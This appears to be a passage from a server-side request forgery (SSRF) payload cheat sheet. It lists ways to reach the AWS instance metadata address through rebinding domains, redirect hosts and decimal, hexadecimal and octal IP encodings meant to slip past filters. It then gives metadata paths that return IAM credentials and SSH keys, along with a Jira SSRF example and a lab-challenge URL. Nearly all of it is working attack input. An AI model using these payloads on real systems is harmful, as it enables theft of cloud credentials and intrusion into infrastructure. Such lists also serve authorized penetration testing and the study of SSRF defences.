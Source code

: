 DNS record

```powershell
http://169.254.169.254
http://metadata.nicob.net/
http://169.254.169.254.xip.io/
http://1ynrnhl.xip.io/
http://www.owasp.org.1ynrnhl.xip.io/
```

HTTP redirect

```powershell
Static:http://nicob.net/redir6a
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
```

Alternate IP encoding

```powershell
http://425.510.425.510/ Dotted decimal with overflow
http://2852039166/ Dotless decimal
http://7147006462/ Dotless decimal with overflow
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
http://0xA9FEA9FE/ Dotless hexadecimal
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
http://0251.0376.0251.0376/ Dotted octal
http://0251.00376.000251.0000376/ Dotted octal with padding
```

More urls to include

```powershell
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```

E.g: Jira SSRF leading to AWS info disclosure - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`

E.g2: Flaws challenge - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`

### SSRF URL for AWS ECS
